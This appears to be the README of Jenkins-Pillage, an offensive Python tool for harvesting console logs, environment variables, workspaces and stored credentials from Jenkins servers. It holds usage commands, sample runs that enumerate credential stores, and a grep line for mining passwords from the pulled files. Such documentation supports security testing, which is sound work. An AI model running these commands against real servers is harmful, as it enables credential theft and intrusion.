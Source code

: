 # Jenkins-Pillage
This tool will attempt to pull console output, environment variables, and workspaces associated with Jenkins builds. It works both against unauthenticated and authenticated (with creds) servers.

Typically lots of sensitive information may be retrieveable from these locations and this tool aims to automate the pillaging of that info. Credentials, API endpoints, private keys, and much more have been gathered using Jenkins-Pillage.

## Requirements
 - Python3.6 or greater

 - `pip3 install requests`
 - `pip3 install bs4`

 **OR**
 - `pip3 install pipenv`
 - `pipenv install`

## Help Info
```
$ ./jenkins-pillage.py --help
usage: jenkins-pillage.py [-h] [-b BUILD_URL] [-u USERNAME] [-p PASSWORD]
                          [-l LIST_URL] [-a AUTO] [-f]

Pillage sensitive information from Jenkins servers

optional arguments:
  -h, --help            show this help message and exit
  -b BUILD_URL, --buildurl BUILD_URL
                        The build URL to pillage
  -u USERNAME, --user USERNAME
                        The Basic Auth username for the service
  -p PASSWORD, --password PASSWORD
                        The Basic Auth password for the service
  -l LIST_URL, --list LIST_URL
                        Lists all found build URLs to use with -b
  -a AUTO, --auto AUTO  Automatically perform -l and then -b on a root URL
  -f, --force           Force the URLs to use the supplied socket (in case the
                        server returns localhost)

$ pipenv run start -h
```

## Usage
Docker mode:
```bash
$ cd /path/to/Jenkins-Pillage
$ docker build -t jenkins-pillage .
$ docker run --rm -it jenkins-pillage -h
    usage: jenkins-pillage.py [-h] [-b BUILD_URL] [-u USERNAME] [-p PASSWORD]
                            [-l LIST_URL] [-a AUTO] [-f]

    Pillage sensitive information from Jenkins servers

    optional arguments:
    -h, --help            show this help message and exit
    -b BUILD_URL, --buildurl BUILD_URL
                            The build URL to pillage
    -u USERNAME, --user USERNAME
                            The Basic Auth username for the service
    -p PASSWORD, --password PASSWORD
                            The Basic Auth password for the service
    -l LIST_URL, --list LIST_URL
                            Lists all found build URLs to use with -b
    -a AUTO, --auto AUTO  Automatically perform -l and then -b on a root URL
    -f, --force           Force the URLs to use the supplied socket (in case the
                            server returns localhost)

# Pass any arguments to the Docker container
$ docker run --rm -it jenkins-pillage -a https://jenkins.example.com
```

Easy mode:
```
$ pip
$ ./jenkins-pillage.py -a https://jenkins.example.com
Getting a list of all build URLs
https://jenkins.example.com/job/Application0/4
https://jenkins.example.com/job/Application1/6
Attempting: https://jenkins.example.com/job/Application0/4
-- FOUND CONSOLE OUTPUT
Attempting: https://jenkins.example.com/job/Application1/6
-- FOUND CONSOLE OUTPUT
-- FOUND ENV VARS
Checking to see if credentials can be decrypted and enumerated
-- FOUND CREDENTIALS IN CREDENTIAL STORE
...
```

List all build URLs recursed from a top level URL:
```
$ ./jenkins-pillage.py -l https://jenkins.example.com
https://jenkins.example.com/job/Application0/4
https://jenkins.example.com/job/Application1/6
...
```

Pull the console output, workspace zip url, and environment variables of a build recursed from above:
```
$ ./jenkins-pillage.py -b https://jenkins.example.com/job/Application0/4
Attempting: https://jenkins.example.com/job/Application0/4
-- FOUND CONSOLE OUTPUT
-- FOUND ENV VARS
-- FOUND WORKSPACE ZIP URL
```
Same but behind an SSH proxy and needs creds to work:
```
$ export all_proxy=socks4a://localhost:1080
$ ./jenkins-pillage.py -b https://jenkins.example.com/job/Application0/4 -u admin -p Password1
Attempting: https://jenkins.example.com/job/Application0/4
-- FOUND CONSOLE OUTPUT
-- FOUND ENV VARS
-- FOUND WORKSPACE ZIP URL
```
The files are pulled down to the current directory. The URL for the zip download is placed in a file as opposed to downloading the zip because many of the zips I've seen can easily fill up your hard drive. Once the files are downloaded, grep to your hearts delight:
```
$egrep -i 'password|Authorization.*Basic|sqlplus|<other_creds_or_commands>' *
```

## Caveat
Jenkins has a _lot_ of available plugins that could also house sensitive data. Use this tool as a first step in pillaging Jenkins boxes. This tool is not a substitute for manual review and is considered in beta so YMMV. Pull requests for additional features are welcome.
